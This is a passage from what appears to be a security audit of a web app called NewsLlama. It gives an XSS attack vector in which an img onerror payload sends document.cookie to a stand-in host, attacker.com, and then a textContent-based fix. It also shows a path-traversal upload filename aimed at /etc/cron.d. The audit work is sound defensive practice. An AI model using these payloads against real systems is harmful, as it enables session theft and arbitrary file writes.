 **Attack Vector**:
External link: `/calendar?toast=<img src=x onerror=fetch('https://attacker.com?cookie='+document.cookie)>`

**Fix**:
```javascript
NewsLlama.showToast = function(message, type = 'info', duration = 5000) {
    const container = document.getElementById('toast-container');
    const toast = document.createElement('div');
    toast.className = `toast ${type}`;

    const iconSpan = document.createElement('span');
    iconSpan.className = 'toast-icon';
    iconSpan.textContent = icons[type] || icons.info;

    const messageDiv = document.createElement('div');
    messageDiv.className = 'toast-message';
    messageDiv.textContent = message;  // ← Safe, sets text only

    const content = document.createElement('div');
    content.className = 'toast-content';
    content.appendChild(messageDiv);

    const closeBtn = document.createElement('button');
    closeBtn.className = 'toast-close';
    closeBtn.textContent = '×';
    closeBtn.addEventListener('click', () => NewsLlama.closeToast(closeBtn));

    toast.appendChild(iconSpan);
    toast.appendChild(content);
    toast.appendChild(closeBtn);
    container.appendChild(toast);

    // Auto-dismiss...
};
```

---

### 3. 🔴 **Path Traversal in Avatar Upload**
**Files**: `app.py:245-250`
**Impact**: Malicious filenames could write files outside avatars directory, potentially breaking the server.

**Problem**:
```python
file_extension = avatar.filename.split(".")[-1] if avatar.filename and "." in avatar.filename else "jpg"
avatar_filename = f"{user.id}.{file_extension}"  # ← Not validated!
avatar_path = avatars_dir / avatar_filename
```

**Attack Vector**:
Upload file named: `malicious.jpg/../../../etc/cron.d/evil`
Results in: `avatars_dir / "1.jpg/../../../etc/cron.d/evil"`
